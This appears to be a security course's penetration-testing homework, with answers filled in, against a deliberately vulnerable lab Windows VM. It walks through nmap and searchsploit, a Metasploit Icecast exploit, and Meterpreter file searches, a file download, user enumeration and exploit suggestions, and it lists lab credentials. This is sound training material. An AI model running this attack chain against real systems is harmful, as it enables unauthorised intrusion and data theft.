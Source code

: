 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
      > ![](Images/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`
     > ![](Images/searchsploit_icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
      > Answer: `msfconsole`
![](Images\msfconsole.png) 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header`
     > Answer: `use 0`
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit
     > Answer: run 
  
  ![](Images/searchicecast.png)
  
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `dir *secretfile.txt* /s /p`

        Found C:\Users\IEUser\Documents\user.secretfile.txt
        
     ![](Images/secretfile.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `dir *recipe.txt* /s /p`
      
        Found C:\Users\IEUser\Documents\Drinks.recipe.txt
     
     ![](Images/find_recipe.png)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download Users/IEUser/Documents/Drinks.recipe.txt`
 
    ![](Images/download_recipes.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. 
   - Keep in mind that the listed suggestions may not include all available exploits.

    Command: `run post/multi/recon/local_exploit_suggestor` 
    Found 2 other possible exploits: 
    `exploit/windows/local/ikeext_service`
    `exploit/windows/local/ms16_075_reflection`

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
  
  ![](Image/enum_users.png)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
  `shell`
  `systeminfo`
  
  ![](Images/systeminfo.png)
 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
 ![](Images/sysinfo.png)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
